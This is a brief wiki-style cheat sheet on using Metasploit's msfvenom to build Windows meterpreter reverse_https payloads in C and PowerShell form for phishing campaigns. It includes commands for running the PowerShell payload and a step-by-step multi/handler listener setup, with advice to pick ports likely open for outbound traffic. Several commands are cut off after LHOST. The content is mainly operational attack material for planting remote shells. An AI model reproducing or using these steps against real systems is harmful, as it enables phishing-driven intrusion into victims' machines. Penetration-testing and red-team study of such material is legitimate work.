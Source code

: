 
# Metasploit





When using msfvenom, make sure to use --smallest to make the smallest possible payload. This can help when creating phishes for VBA/Powershell scripts.



'''NOTE: Payload must be generated on the same system as the listener, otherwise Metasploit won't be able to resolve the UUID to the "friendly  name".'''
* Also, you must type <code>sessions -v</code> while in metasploit to view the resolved UUID

If you want to track metasploit payloads from phishing campaigns, you can generate a msfvenom payload using the following syntax:

```
msfvenom -p windows/meterpreter/reverse_https LHOST
```



You can read about Syringe Payload [http://carnal0wnage.attackresearch.com/2011/07/process-injection-outside-of-metasploit.html here].

Example msfvenom command to generate C shell code for execution:

```
msfvenom -p windows/meterpreter/reverse_https -f c LHOST
```



Example msfvenom command to generate Powershell shell code for execution:

```
msfvenom -p windows/meterpreter/reverse_https -f psh LHOST
```
```
msfvenom -p windows/meterpreter/reverse_https -f psh-reflection LHOST
```

Start the powershell from command prompt:
```
powershell -File C:\Location\To\Powershell.ps1
```

Location of Powershell Install Points:
```
32-bit (x86) PowerShell executable	%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
64-bit (x64) Powershell executable	%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe
32-bit (x86) Powershell ISE executable	%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell_ise.exe
64-bit (x64) Powershell ISE executable	%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell_ise.exe
```


Example of setting up a Metasploit handler:
```
# msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_https
msf exploit(handler) > set LPORT [port] 
#Use a port that is likely allowed for outgoing connections like 80, 443, 8080, 53
msf exploit(handler) > set LHOST [IP]
msf exploit(handler) > set exitonsession false
msf exploit(handler) > exploit -j -z
msf exploit(handler) > [*] Starting the payload handler...
```

